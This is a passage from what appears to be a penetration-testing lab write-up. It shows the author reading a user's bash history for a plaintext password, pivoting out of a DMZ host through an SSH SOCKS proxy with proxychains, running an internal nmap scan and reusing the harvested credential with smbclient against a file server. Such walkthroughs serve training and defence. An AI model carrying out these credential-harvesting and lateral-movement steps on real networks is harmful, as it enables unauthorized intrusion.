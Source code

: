 Of these files, the only thing I can really think of to do is checking the bash history for any commands the user has run and maybe the profile files to see any potential startup scripts or environment variables of note
```
jbetty@DMZ01:~$ less -N .bash_history 
--SNIP--
     25 sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
--SNIP--
     40 ssh user@192.168.0.101
     41 scp file.txt user@192.168.0.101:~/Documents/
--SNIP--
     64 sudo adduser testuser
     65 sudo usermod -aG sudo testuser
     66 su - testuser
--SNIP--
```
## 05. Pivoting out of the DMZ
The testuser line seemed pretty interesting as we could potentially use that to get root access to this machine, unfortunately that user no longer exists. Next the 192.168.0.101 machine is out of scope. Lastly we can see potential credentials to FILE01, which is in scope. So when I first tried to go about this, i spent too much time trying to escalate privileges on this machine so that i could use [chisel](https://github.com/jpillora/chisel) or to be able to ssh tunnel since that was locked down. Turns out all i needed to do was use the built in SSH SOCKS5 Proxy and proxychains my traffic through to the target machines. 
```
th@ddeu$ ssh -D 9050 jbetty@10.129.39.174
th@ddeu$ sudo vim /etc/proxychains.conf
# ENSURE YOUR CONFIG HAS THE FOLLOWING
--SNIP--
[ProxyList]
socks5 127.0.0.1 9050
--SNIP--
# THIS NEXT COMMAND WILL TAKE A SEC, GO DRINK WATER
th@ddeu$ sudo proxychains nmap -Pn -sT -p 21-23,80,135,443,445,3389,5985,5986,8080 -T4 -oA internal_scan 172.16.119.7 172.16.119.10 172.16.119.11 
--SNIP--
     21 RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
     22 Nmap scan report for 172.16.119.7
     33 3389/tcp open   ms-wbt-server
     34 5985/tcp open   wsman
     37 
     38 Nmap scan report for 172.16.119.10
     46 135/tcp  open   msrpc
     48 445/tcp  open   microsoft-ds
     49 3389/tcp open   ms-wbt-server
     50 5985/tcp open   wsman
     53 
     54 Nmap scan report for 172.16.119.11
     62 135/tcp  open   msrpc
     64 445/tcp  open   microsoft-ds
     65 3389/tcp open   ms-wbt-server
     66 5985/tcp open   wsman
```
## 06. Gaining Access to FILE01
Lets Focus on the ports that we have open on FILE01, we can see that we can access this machine a few different ways, lets try the least intrusive method of checking the shares available first, and maybe connecting through psexec, we can also try to RDP but i typically save that for a last resort.
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\hwilliam%dealer-screwed-gym1" -L //172.16.119.10
--SNIP--
        Sharename       Type      Comment
        ---------       ----      -------
```